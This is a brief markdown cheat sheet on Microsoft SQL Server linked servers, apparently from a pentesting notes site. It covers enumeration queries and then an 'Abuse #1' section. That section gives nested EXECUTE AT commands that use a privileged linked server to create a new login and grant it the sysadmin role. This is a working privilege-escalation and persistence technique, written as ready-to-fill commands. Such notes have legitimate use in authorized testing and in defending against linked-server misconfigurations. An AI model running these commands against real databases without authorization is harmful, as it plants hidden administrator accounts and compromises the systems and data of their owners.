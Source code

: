 ```yaml
---
title: "MSSQL Linked Servers"
date: 2024-6-27
tags: ["mssql", "database", "Windows", "linked_server", "privesc"]
---
```


---
###  Linked Servers

#### Basic Commands

<small>*Hint: Use double `''` to escape `'` in mssql*</small>

```mysql
# Show current server
select @@servername
```

```mysql
# Show linked servers
select srvname from sysservers;
```

#### Execute Query between Linked Servers

```mysql
# Execute query from current server to linked server
EXECUTE ('select @@version;') at [<LINKED_SERVER>];
```

```mysql
# Execute query from linked server to current server
EXECUTE ('EXECUTE (''SELECT entity_name, permission_name FROM fn_my_permissions(NULL, ''''SERVER'''');'') at [<CURRENT_SERVER>]') at [<LINKED_SERVER>];
```

### Abuse #1: Create Admin User from Privilege Linked Server

```mysql
EXECUTE('EXECUTE(''CREATE LOGIN <USER> WITH PASSWORD = ''''<PASSWORD>'''';'') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```

```mysql
EXECUTE('EXECUTE(''EXEC sp_addsrvrolemember ''''<USER>'''', ''''sysadmin'''''') AT [<CURRENT_SERVER>]') AT [<LINKED_SERVER>]
```